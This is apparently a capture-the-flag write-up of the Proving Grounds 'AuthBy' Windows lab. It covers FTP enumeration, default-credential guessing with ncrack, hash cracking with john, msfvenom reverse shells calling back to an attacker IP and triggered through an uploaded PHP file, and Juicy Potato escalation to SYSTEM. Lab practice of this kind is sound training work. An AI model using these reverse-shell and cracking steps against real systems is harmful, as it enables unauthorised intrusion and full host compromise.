 ```yaml
---
title: AuthBy
date: 2024-02-15
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Intermediate
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.46
```
![nmap](./nmap.png)

Then, I will run a full port nmap scan
```
nmap -sC -sV -Pn --open -p- 192.168.229.46
```
![full-nmap](./full-nmap.png)

The full port scan reveals two extra ports, 242 and 3145.

## FTP - Port 21
From the nmap results, we can see that anonymous ftp login is allowed.
- use `anonymous` as the user and no password
- after logging in, check what users are available by looking into the accounts directory
```
ftp 192.168.229.46
```
![accounts](./accounts.png)

### Ncrack
Ncrack is a powerful open-source network authentication cracking tool. It's designed to help assess and strengthen the security of networks by identifying weak credentials. 
Ncrack supports various protocols such as SSH, RDP, FTP, Telnet, HTTP(S), and more, making it versatile for testing a wide range of systems. With its robust and flexible features, Ncrack is the perfect
option to try and crack any default passwords now that we have a list of usernames.

I created a usernames.txt file with the following entries
```
admin
backup
Offsec
```

Then, running the following command reveals valid default credentials
```
ncrack -U usernames.txt -P /SecLists-master/Passwords/Default-Credentials/default-passwords.txt ./passwords.txt
```
![ncrack](./ncrack.png)

Login to the ftp console as admin
- then, use the command `mget *` in ftp to download all the files for the admin user
- there are three files, `.htaccess`, `.htpasswd` and `index.php`
- looking at all the files, `.htpasswd` has a password for the user offsec that we can crack using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```

John successfully cracked the password for user offsec which is `elite`
- the password does not work for ftp login using username offsec, so we can try this credential for other services

## HTTP - Port 242
We can use the credentials `offsec:elite` to authenticate to the http
- using these credentials, we can run a gobuster scan with the `-U` and `-P` flags
```
gobuster dir -u http://192.168.229.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php -U offsec -P elite
```

The gobuster results show status code 200 for `index.php`, however, there aren't any other interesting results.

# Exploitation
We will be able to access files uploaded through admin user FTP. We can upload a reverse shell through FTP and then access it from the 
authenticated HTTP server

1. Create a msfvenom reverse shell for a Windows machine
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell.exe
```

2. Create a php file to run the reverse shell, otherwise, going to `/revshell.exe` will simply download the file
```
<?php
$exec = system('revshell.exe', $val)
?>
```

3. Now, log in as admin through FTP and use `mput` to upload the reverse shell and the run.php
![upload](./upload.png)

4. Start a nc listener with `nc -lnvp 1234`

5. Go to url `http://192.168.229.46/run.php` to trigger the php script that will run the reverse shell.
![foothold](./foothold.png)

We are able to get a foothold on the system as user livda\apache.

## Privilege Escalation
We can enumerate the system for useful information
```
whoami /all
```
![impersonate](./impersonate.png)

Also, get more detailed information on the system
![systeminfo](./systeminfo.png)

From the enumeration we can see that
- the `SeImpersonatePrivilege` is enabled
- the machine is running a Windows 2008 Server x86

We can use Juicy Potato found [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
- JuicyPotato requires a class ID (CLSID) which is unique to the operating system
- the website [here](https://ohpe.it/juicy-potato/CLSID/) helps us choose a CLSID, use the CLSID for Windows Server 2008 in this case

1. Clone the JuicyPotato.exe file and upload to the machine using admin FTP
2. Create another msfvenom reverse shell to use for juicy potato
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=1234 -f exe > revshell2.exe
```
3. Upload the `revshell2.exe` using admin FTP
4. Run JuicyPotato using the first CLSID found on the website
```
Juicy.Potato.x86.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -l 1337 -p "C:\wamp\www\revshell2.exe"
```
![run](./run.png)
![result](./result.png)

The command works and we have a shell as NT Authority\System.

# Summary
Reconnaissance:
- Conducted Nmap scan to identify open ports and services
- Discovered an FTP server with anonymous login enabled
- Used Ncrack to verify default credentials, gaining access to the FTP console
- Obtained hashed passwords from the FTP server

Initial Access:
- Cracked hashed passwords using John the Ripper
- Accessed an HTTP service using compromised credentials
- Utilized Gobuster to enumerate directories, discovering a potential upload functionality

Exploitation:
- Uploaded a crafted reverse shell through FTP
- Triggered the execution of the reverse shell via a PHP script on the HTTP server, gaining initial access to the system

Privilege Escalation:
- Leveraged the SeImpersonatePrivilege privilege and system information obtained through enumeration
- Exploited a known CLSID vulnerability using Juicy Potato
- Executed Juicy Potato with the appropriate CLSID, resulting in escalated privileges to NT Authority\System

Join me for the next machine soon for more exciting challenges and security insights!

+20 points